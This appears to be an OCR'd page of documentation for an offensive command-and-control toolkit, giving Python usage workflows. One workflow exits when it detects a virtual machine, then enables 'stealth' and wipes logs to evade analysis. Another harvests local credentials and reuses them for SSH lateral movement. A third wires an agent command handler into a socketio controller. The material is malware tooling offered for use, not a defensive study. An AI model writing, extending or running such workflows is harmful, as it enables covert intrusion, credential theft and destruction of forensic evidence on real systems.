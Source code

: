 ### Workflow 2: Stealth Operation
```python
from advanced_stealth_evasion import AdvancedStealthManager

stealth = AdvancedStealthManager()

# 1. Check environment
vm_check = stealth.check_virtualization()
if vm_check['is_virtual_machine']:
    exit()

# 2. Enable stealth
stealth.enable_full_stealth()

# 3. Clean logs
stealth.clean_logs()

# 4. Proceed with operations...
```

### Workflow 3: Credential Gathering
```python
from advanced_credential_harvester import AdvancedCredentialHarvester
from advanced_network_pivoting import LateralMovementManager

# 1. Harvest local credentials
harvester = AdvancedCredentialHarvester()
creds = harvester.harvest_all()

# 2. Use for lateral movement
lateral = LateralMovementManager()
for cred in creds['methods']['ssh']:
    lateral.attempt_ssh(target_host, cred['username'], cred['password'], 'whoami')
```

## 🔥 Advanced Integrations

### Integration with Controller
```python
# In controller.py, add:
from advanced_dashboard_integration import AdvancedDashboardIntegration, register_advanced_routes

# After socketio init
dashboard = AdvancedDashboardIntegration(socketio)
dashboard.initialize_modules()

# Register routes
register_advanced_routes(app, socketio, dashboard)

# In command handler
@socketio.on('execute_command')
def handle_command(data):
    # Analyze with AI first
    assessment = dashboard.analyze_agent_action(
        data['agent_id'], 
        {'type': 'command', 'command': data['command']}
    )
    
    if assessment['risk_score'] > 80:
        emit('threat_warning', assessment)
```
